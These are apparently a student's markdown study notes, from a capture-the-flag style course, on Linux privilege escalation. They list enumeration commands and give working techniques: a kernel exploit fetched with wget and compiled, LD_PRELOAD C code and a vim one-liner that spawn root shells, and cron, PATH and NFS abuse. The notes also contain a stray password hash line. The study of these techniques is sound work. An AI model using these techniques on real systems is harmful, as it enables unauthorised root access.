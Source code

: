 # What Is Privilege Escalation 
 - ###.going from a lower permission account to a higher permission one
 - ###.exploitation of a vulnerability, design flaw or configuration oversight in an OS or APP to gain unathorized access to resources that are usually restricted from the users

##Privilege Escalation allows:
###1. Resetting passwords
###2. Bypass access controls to compromise protected data
###3. Editing software configurations
###4. Enabling persistence
###5. Changing the privilege of existing users
###6. Execute any admin command

##Enumeration - first step taken after gaining access, important step post-compromise phase

               #Linux Commands

###'hostname' - command returns hostname of the target machine
###'uname -a' - print system information detail about kernel, useful for potential kernel vulns
###'/proc/version' - info about the target system processes
###'/etc/issue' - file contains info about the OS, can be eaily customized or changed
###'ps' - see running processes on linux system
####-1. PID: Process ID
####-2. TTY: Terminal type used by user
####-3. Time: Amount of CPU time used by process
####-4. CMD: command or executable running
###'ps -a': view all running processes
###'ps axjf': view process tree
###'ps aux': will show processes for all users
###-a: all users
###-u: display the user that launced the process
###-x: show processes that are not attached to a terminal

###'env': show environmental variables
###'sudo -l: list all commands the user can run using 'sudo'
###'ls': list files in current directory
###'ls -la': list all files including hidden files in current directory
###'id <user>': provide a general overview of the user's privilege level
###'cat /etc/passwd': discover users on the system
###'cat /etc/passwd | cut -d ":" -f 1": easily list all users and ignore other parts
###'history': look at earlier commands 
###'ifconfig': information about the network interfaces (eth0, tun0, and tun1)
###'ip route': see network route

###'netstat': gather information on existing connections
###'netstat -a': shows all listening ports and established connections
###'netstat -at': list TCP protocols
###'netstat -au': list UDP protocols
###'netstat -l': list ports in 'listening' mode. Ports are open and ready to accept incoming connection
###'netstat -lt': list ports in 'listening' mode using TCP protocol
###'netstat -s': list network usage statistics by protocol (-t: TCP, -u: UDP)
###'netstat -tp': list connections with service name and PID (-l: listening ports)
###'netstat -i': shows interface stats
###'netstat -ano': -a = display all sockets, -n: do not resolve names, -o: display timers

###find command - searching the target system for important information and potential privilege escalation vectors 
###'find . -name <filename>.txt' find the file named <filename> in the current directory
###'find /home -name <filename>.txt': find file named <filename> in the /home directory
###'find / -type d -name config': find the directory named config under "/"
###'find / -type f -perm 0777': find files with the 777 permissions(files readable, writable and executable by all users)
###'find / -perm a=x':find executable files
###'find /home -user frank': find all files for user "frank" under "/home"
###'find / -mtime 10': find files modified in the last 10 days
###'find / -atime 10': find files accessed in the last 10 days
###'find / -cmin -60': find files changed in the last hour 
###'find / -amin -60': find files accessed in the last hour
###'find / -size 50M': find files with a 50 MB size

###folders and files that can be written to or executed from:
####1. 'find / -writable -type d 2>/dev/null'
####2. 'find / -perm -222 -type d 2>/dev/null'
####3. 'find / -perm -o w -type d 2>/dev/null'
###'find / -perm -o x -type d 2>/dev/null': find world executable folders
###find development tools and supported languages:
####'find / -name perl*'
####'find / -name python*'
####'find / -name gcc*'
###'find / -perm -u=s -type f 2>/dev/null': find files with SUID bit, which allows us to run the file with a higher privilege than the current user

###Automated Enumeration Tools - linux enumeration tools with Github Repositories
####LinPeas: https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS
####LinEnum: https://github.com/rebootuser/LinEnum
####LES (Linux Exploit Suggester): https://github.com/mzet-/linux-exploit-suggester
####Linux Smart Enumeration: https://github.com/diego-treitos/linux-smart-enumeration
####Linux Priv Checker: https://github.com/linted/linuxprivchecker

##Kernel Exploits
###-privEsc ideally leads to root privileges
###-achieved by exploting an existing vuln or accessing another user account that has higher privileges
###-rely on misconfigurations and lax permissions
###-methodology:
####1. Id the Kernel version
####2. search and find an exploit code (https://www.linuxkernelcves.com/cves)
####3. Run the exploit

###Linux Kernel 3.13.0-24-generic x86 64
####CVE-2015-1328: Allows local users to obtain root access by leveraging a configuration in which 'overlayfs' is permitted in an arbitrary mount namespace. 
####Exploit: https://www.exploit-db.com/exploits/37292
####1. Need to copy exploit file to the target machine
	#####a. start a python server to serve the file
	#####python3 -m http.server 8888
	#####b. on target machine copy the file in the /tmp folder
	#####wget http://1.2.3.4/8888/exploit.c
####2. compile the exploit
#####gcc exploit.c -o pwned
####3. search for flag
#####find . -name flag1.txt
####4. cat flag1.txt

###Sudo
####-check root privileges using 'sudo -l'
####-Leverage application functions: some application allow the loading of alternative configuration files
####eg: Apache2 ('-f': specify an alternate ServerConfigFile)
####-Leverage LD_PRELOAD: allows any program to use shared libraries
####-if "env_keep" option is enabled we can generate a shared library which will be loaded and executed before the program is run
####-LD_PRELOAD option will be ignored if the real user ID is different from the effective user ID
###-Methodology:
####1. Check for LD_PRELOAD(with the env_keep option enabled)
####2. Write a simple C code compiled as a share object (.so extension) file
####3. Run the program with sudo rights and LD_PRELOAD option pointing to our .so file
###The C code will simply spawn a root shell and can be written as follows; shell.c

####'#include <stdio.h>'
'#include <sys/types.h>'
'#include <stdlib.h>'

void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}

####gcc -fPIC -shared -o shell.so shell.c -nostartfiles
####-use this shared object file when launching any program the user can run with sudo
####sudo LD_PRELOAD=/home/user/ldpreload/shell.so find

####$6$2.sUUDsOLIpXKxcr$eImtgFExyr2ls4jsghdD3DHLHHP9X50Iv.jNmwo/BJpphrPRJWjelWEz2HH.joV14aDEwW1c3CahzB1uaqeLR1:18796:0:99999:7:::

###SUID
####-Linux privilege controls rely on controlling users and file interacions
####-achieved using permissions
####-SUID(set-user identification)
####-SGID(set-group identification)
####-'s'bit - special permission level
'####find / -type f -perm -04000 -ls 2>/dev/null': list files with SUID or SGID bit set

###Capabilities
####'getcap' tool  to list enabled capabilities
####-capabilites help manage privileges at a more granular level
####'getcap -r /' generates a lot of erros so it is good practice to redirect error messages to /dev/null
####'getcap -r / 2>/dev/null'
###vim:
####./vim -c ':py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'

###Cron Jobs
####-used to run scripts or binaries at specific times
####-run with privilege of the owner and not current user
####-task that runs on root privileges, change script that will be run to new script with root privileges
####-stored as crontabs
####-any user can read the file keeping system-wide cron jobs under '/etc/crontab'
####backup.sh - configured to run every minute

###PATH
####-if a folder for the user has a write permission located in the path, an applicaition in the path could be hijacked to run a script and increase privileges
####echo $PATH

###NFS
####-Network file sharing: configuration is kept in '/etc/exports' file. 
####-the file is created during the NFS server installation and can usually be read by users
####-critical element: "no_root_squash" - default NFS will change the root user to nfsnobody and strip any file from operating with root privileges
####- 'no_root_squash' is present on a writable share, it is possible to create an executable with SUID bit set and run it on the target system




